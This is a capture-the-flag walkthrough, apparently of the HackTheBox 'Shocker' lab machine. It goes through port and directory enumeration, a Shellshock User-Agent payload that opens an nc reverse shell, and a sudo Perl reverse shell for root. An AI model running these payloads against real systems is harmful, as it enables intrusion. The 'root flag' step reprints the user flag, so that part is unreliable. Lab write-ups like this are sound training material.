




## Enumeration

### Port Scanning

We begin by performing an Nmap scan.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Shocker]
└─$ sudo nmap -Pn -n -sC -sV -A -T4 10.10.10.56 -oA Nmap/Default-Scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-17 14:30 +01
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 14:31 (0:00:06 remaining)
Nmap scan report for 10.10.10.56
Host is up (0.056s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   55.57 ms 10.10.14.1
2   55.66 ms 10.10.10.56

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.08 seconds
                                                            
```

- **Valuable Information:**

| Port Number | Service | Version|
| -------------- | -------- | --------|
| 80/TCP | HTTP | Apache httpd 2.4.18 |
| 2222/TCP | SSH | OpenSSH 7.2p2 |

- Operating System: `Ubuntu`.

### Footprinting HTTP-80/TCP

#### Website


Nothing special found, so let’s check the source code next.

```html
 <!DOCTYPE html>
<html>
<body>

<h2>Don't Bug Me!</h2>


</body>
</html> 
```

Still nothing interesting.

### Directory Fuzzing

- Now let’s try directory fuzzing and see if we can find anything useful.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Shocker]                                          
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u 'http://10.10.10.56:80/FUZZ' -ic -t 200
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/                      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                    
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                     
         \ \_\   \ \_\  \ \____/  \ \_\                        
          \/_/    \/_/   \/___/    \/_/                                                    
       v2.1.0-dev                                                                             
________________________________________________                 
                                  
 :: Method           : GET                                                            
 :: URL              : http://10.10.10.56:80/FUZZ             
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt                                                                                                                                       
 :: Follow redirects : false            
 :: Calibration      : false                                               
 :: Timeout          : 10                                 
 :: Threads          : 200                                    
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 137, Words: 9, Lines: 10, Duration: 63ms]                          
                        [Status: 200, Size: 137, Words: 9, Lines: 10, Duration: 54ms]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 54ms]
:: Progress: [220546/220546] :: Job [1/1] :: 3676 req/sec :: Duration: [0:01:02] :: Errors: 0 :: 
```

- Nothing intersting, just a 403 forbiden on `server-status` which is provides real-time information about the current state of the server. 

- This is where things get a bit tricky. The machine, Shocker, has a misconfiguration where it doesn't automatically redirect /blog to /blog/. As a result, /blog and /blog/ are treated as two distinct paths by the Apache server.  Shout-Out to **`0xdf`** for explaining this, more information can be found in his walkthrough [HERE](https://0xdf.gitlab.io/2021/05/25/htb-shocker.html#directory-brute-force).

Let’s proceed with directory fuzzing, this time making sure to include the trailing `/`.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Shocker]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt:FUZZ -u 'http://10.10.10.56:80/FUZZ/' -ic -t 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56:80/FUZZ/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

cgi-bin                 [Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 66ms]
                        [Status: 200, Size: 137, Words: 9, Lines: 10, Duration: 72ms]
icons                   [Status: 403, Size: 292, Words: 22, Lines: 12, Duration: 185ms]
                        [Status: 200, Size: 137, Words: 9, Lines: 10, Duration: 47ms]
server-status           [Status: 403, Size: 300, Words: 22, Lines: 12, Duration: 46ms]
:: Progress: [207630/207630] :: Job [1/1] :: 4132 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
```

- Found 2 new directories `incons/` and `cgi-bin`.
- `icnons/` must contain assets while `cgi-bin`is a directory that isolate CGI scripts (Common Gateway Interface) from other web content, Files within this diorectory are treated like executables. 

### Page Fuzzing

Let's perform page fuzzing to see if we come across any scripts.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Shocker]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ  -u 'http://10.10.10.56:80/cgi-bin/FUZZ' -e .sh,.pl,.c -ic -t 200
   
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56:80/cgi-bin/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Extensions       : .sh .pl .c 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 56ms]
user.sh                 [Status: 200, Size: 118, Words: 19, Lines: 8, Duration: 61ms]
                        [Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 46ms]
:: Progress: [882184/882184] :: Job [1/1] :: 980 req/sec :: Duration: [0:03:37] :: Errors: 0 ::
```

- Found a file called `user.sh`

#### user.sh



- It looks like the user.sh file conatain the unix `uptime` command.
- So we need to find a way to perfome Remoce code Execution.

## Exploitation

A simple google search about shell vulnerabilities and i found a vulnerability called `Shellshock` which allows attackers to execute arbitratry commands on a vulnerable system by sending specially crafted environment variables to a Bash-based application.

 **Resource → [HERE](https://beaglesecurity.com/blog/vulnerability/shellshock-bash-bug.html)**

- Capture the request using Burp Suite, send it to repeater and inject the payload to the UA.



- The command executed successfully.
- Next, let's modify our payload to establish a reverse shell.
- We'll begin by setting up a listener on our attack machine.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Shocker]
└─$ nc -lnvp 1234
```
- The payload that we're going to use:

```plaintext
User-Agent: () { :;}; /bin/bash -c 'rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.10 1234 > /tmp/f'
```



### Spawning a full TTY

We need to spawn a fully interactive TTY shell to enable features like command history and using keyboard shortcuts...

```bash
shelly@Shocker:/usr/lib/cgi-bin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<-bin$ python3 -c 'import pty;pty.spawn("/bin/bash")'                        
shelly@Shocker:/usr/lib/cgi-bin$ ^Z
zsh: suspended  nc -lnvp 1234
                                                                                                                    
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Shocker]
└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 1234
                               reset
reset: unknown terminal type unknown
Terminal type? screen
```

Some commands still don't work properly, so we need to export the `$TERM` environment variable to help the shell behave more like a standard terminal.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Shocker]
└─$ echo $TERM
xterm-256color

┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Shocker]
└─$ stty size         
61 236

shelly@Shocker:/usr/lib/cgi-bin$ export $TERM=xterm-256color
shelly@Shocker:/usr/lib/cgi-bin$ stty rows 61 columns 236
```

- Next, we'll search for the user flag.

```bash 
helly@Shocker:/usr/lib/cgi-bin$ ls
user.sh
shelly@Shocker:/usr/lib/cgi-bin$ pwd
/usr/lib/cgi-bin
shelly@Shocker:/usr/lib/cgi-bin$ cd ~/
shelly@Shocker:/home/shelly$ ls
user.txt
shelly@Shocker:/home/shelly$ cat user.txt 
448313be33aca32fed7594add17a8beb
```

user flag: **`448313be33aca32fed7594add17a8beb`**

## Privilege Escalation

- Next, we'll focus on privilege escalation to gain root-level access.

```bash
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

- It appears we can run perl with root privileges.
- This allows us to either spawn a root shell or execute a reverse shell as root.
- In this case, we'll attempt to gain a reverse shell.
- First, set up a listener on the attack box on port 4321:

```bash 
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Shocker]
└─$ nc -lnvp 4321
Listening on 0.0.0.0 4321

```

- Now, let's execute the reverse shell command on the victim machine.

```bash
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.10";$p=4321;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```



- With root access obtained, the next step is to search for the root flag.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Shocker]
└─$ nc -lnvp 4321
Listening on 0.0.0.0 4321
Connection received on 10.10.10.56 58012
# whoami    
root
# ls
user.txt
# cat user.txt
448313be33aca32fed7594add17a8beb
# 
```

- As spawning a fully interactive TTY shell was covered previously, it will not be repeated in this section.

root flag: **`448313be33aca32fed7594add17a8beb`**

Thank you for your time.

# Mission complete

